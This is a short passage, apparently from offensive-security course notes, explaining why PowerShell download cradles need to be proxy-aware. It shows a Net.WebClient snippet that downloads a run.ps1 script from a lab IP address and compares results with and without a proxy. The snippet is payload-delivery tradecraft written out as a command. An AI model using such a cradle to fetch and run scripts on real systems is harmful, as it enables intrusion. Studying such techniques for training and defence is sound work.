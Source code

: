 ## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:

```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:

![wo_proxy](../../../Screenshots/wo_proxy.png)

With Proxy:

![w_proxy](../../../Screenshots/w_proxy.png)

We can see that the system.net.webclient is aware of a proxy in use.


